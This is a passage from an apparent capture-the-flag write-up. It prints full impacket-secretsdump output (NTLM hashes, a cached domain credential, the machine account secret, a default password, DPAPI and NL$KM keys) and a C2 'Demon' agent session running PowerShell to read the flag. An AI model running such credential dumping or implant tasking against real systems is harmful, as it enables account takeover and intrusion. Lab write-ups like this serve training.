Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
CORE.CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#108cb25293e11c072acebcd810e23002: (2024-06-19 03:23:28)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:5a006f006f0047006f005700460020006500580069002200390026006000280030005b005b002b002800520020005300770059002f00210061004a00320024003100790066002600730058007600720058002c0030004c0059002c002c00630061005600570056002f005a002800330020004e0044005c003a002b00790042002700720067007300200033004b005b005900510075007a007a002a00310078007600430067003d004c00430074006a00530050005500290032005c002a006a0028004f00760031005c006c005400740028006a002a0034005d005f003700320057004f00350067006400440055005a00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:fb559b5dce784bc37d4243aa442a6703
[*] DefaultPassword 
(Unknown User):0f72%0Po#e
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5b9083a79b568c5fe936bf8b4a88fbd32b46017c
dpapi_userkey:0xebe4dbdda5c27c657c42d19ce25969f0f8cbf8bf
[*] NL$KM 
 0000   D8 33 7F 7B A3 2C DE 15  CF B4 9A 10 37 3F 6B A9   .3.{.,......7?k.
 0010   4E 49 46 70 57 27 E8 1E  E8 A9 11 A8 1D EF 19 0C   NIFpW'..........
 0020   CC 43 92 F3 9C C7 51 1A  06 56 6D 60 DA 73 22 74   .C....Q..Vm`.s"t
 0030   81 EC B4 9F 69 FC 6A 8A  C8 52 E6 F5 03 56 0D 59   ....i.j..R...V.Y
NL$KM:d8337f7ba32cde15cfb49a10373f6ba94e4946705727e81ee8a911a81def190ccc4392f39cc7511a06566d60da73227481ecb49f69fc6a8ac852e6f503560d59
[*] Cleaning up...
```

Now seems like this isn't working quite right?

```
┌──(root㉿kali-bello)-[/home/…/4423d626/Download/C:/temp]
└─# impacket-secretsdump -security security.txt -system systemic.txt -sam samantha.txt LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xad842e2a0985bc9563e46c5a4f9ec902
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823284d2bc89d23ba34895371304837f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
CORE.CYBER.LOCAL/Administrator:$DCC2$10240#Administrator#108cb25293e11c072acebcd810e23002: (2024-06-19 03:23:28)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:5a006f006f0047006f005700460020006500580069002200390026006000280030005b005b002b002800520020005300770059002f00210061004a00320024003100790066002600730058007600720058002c0030004c0059002c002c00630061005600570056002f005a002800330020004e0044005c003a002b00790042002700720067007300200033004b005b005900510075007a007a002a00310078007600430067003d004c00430074006a00530050005500290032005c002a006a0028004f00760031005c006c005400740028006a002a0034005d005f003700320057004f00350067006400440055005a00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:fb559b5dce784bc37d4243aa442a6703
[*] DefaultPassword 
(Unknown User):0f72%0Po#e
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5b9083a79b568c5fe936bf8b4a88fbd32b46017c
dpapi_userkey:0xebe4dbdda5c27c657c42d19ce25969f0f8cbf8bf
[*] NL$KM 
 0000   D8 33 7F 7B A3 2C DE 15  CF B4 9A 10 37 3F 6B A9   .3.{.,......7?k.
 0010   4E 49 46 70 57 27 E8 1E  E8 A9 11 A8 1D EF 19 0C   NIFpW'..........
 0020   CC 43 92 F3 9C C7 51 1A  06 56 6D 60 DA 73 22 74   .C....Q..Vm`.s"t
 0030   81 EC B4 9F 69 FC 6A 8A  C8 52 E6 F5 03 56 0D 59   ....i.j..R...V.Y
NL$KM:d8337f7ba32cde15cfb49a10373f6ba94e4946705727e81ee8a911a81def190ccc4392f39cc7511a06566d60da73227481ecb49f69fc6a8ac852e6f503560d59
[*] Cleaning up...
```

And I was almost forgetting about the flag:



```
19/06/2024 16:26:57 [yovecio] Demon » powershell "cat flag.txt"
[*] [1C5EBAF7] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [188 bytes]
[+] Received Output [29 bytes]:
Cyb3rN3t1C5{T0mc@t_W3b@pp$}
```

I guess we can move on for now!

&nbsp;

&nbsp;

&nbsp;

&nbsp;